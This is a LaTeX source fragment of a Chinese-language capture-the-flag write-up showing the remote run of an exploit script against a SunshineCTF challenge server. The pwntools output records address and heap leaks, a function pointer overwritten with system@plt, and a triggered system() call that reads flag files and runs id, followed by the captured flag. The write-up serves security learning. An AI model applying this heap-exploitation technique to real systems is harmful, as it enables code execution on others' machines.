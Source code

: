 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{\texorpdfstring{8.2
遠端（\texttt{python3\ \allowbreak{}exploit.\allowbreak{}py\ \allowbreak{}REMOTE} →
\texttt{chal.\allowbreak{}sunshinectf.\allowbreak{}games:\allowbreak{}26005}）}{8.2 遠端（python3 exploit.py REMOTE → chal.sunshinectf.games:26005）}}\label{ux9060ux7aefpython3-exploit.py-remote-chal.sunshinectf.games26005}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[x] Opening connection to chal.sunshinectf.games on port 26005
[x] Opening connection to chal.sunshinectf.games on port 26005: Trying 35.211.211.18
[+] Opening connection to chal.sunshinectf.games on port 26005: Done
[+] handshake ok, key schedule = bff3be995bde2cb4802912e5a4d6ee70
[+] PIE base = 0x5de6e835c000
[*] target function pointer @ 0x5de6e83600c0  ->  system@plt 0x5de6e835d150
[+] heap leak: stored_next=0x5de2c80773e1 tcache_key=0xa5cac8477d07e250
[+] victim P (malloc user ptr) = 0x5de716761480
[+] wrote system@plt into <0x5de6e83600c0>
[+] verified: [0x5de6e83600c0] == 0x5de6e835d150
[*] triggering system(b'cat flag.txt /flag /home/*/flag.txt 2>/dev/null; ls -la; id; echo DONE')
sun{cr4ck_tHe_ciPh3r_fr33_thE_heaP}
total 12
drwxr-xr-x 2 root root         4096 Sep 26 00:21 .
drwxr-xr-x 1 root root         4096 Sep 26 00:54 ..
-rw-r----- 1 root code_breaker   36 Sep 26 00:13 flag.txt
uid=1337(code_breaker) gid=1337(code_breaker) groups=1337(code_breaker)
DONE
HQ▒▒▒▒M t▒u▒▒Y0▒▒p▒▒▒G▒`J▒▒▒▒▒▒-6▒ Z▒    ← ✶ 同一串二進位回音（見 §8.1 說明）
2-\▒▒▒▒▒▒▒▒▒▒▒P▒▒▒▒P▒▒▒▒  ▒
FLAG: sun{cr4ck_tHe_ciPh3r_fr33_thE_heaP}
[*] Closed connection to chal.sunshinectf.games port 26005
\end{Verbatim}

\begin{quote}
※提示 遠端連線 pwntools
也會印「兩行」：\texttt{{[}x{]}\ \allowbreak{}...\allowbreak{}\ \allowbreak{}Trying\ \allowbreak{}35.\allowbreak{}211.\allowbreak{}211.\allowbreak{}18}（開始嘗試）
與 \texttt{{[}+{]}\ \allowbreak{}...\allowbreak{}\ \allowbreak{}Done}（成功）。只看到一行不代表只做了一次動作。
\end{quote}

\paragraph{8.3 真實 flag}\label{ux771fux5be6-flag-1}
\end{document}
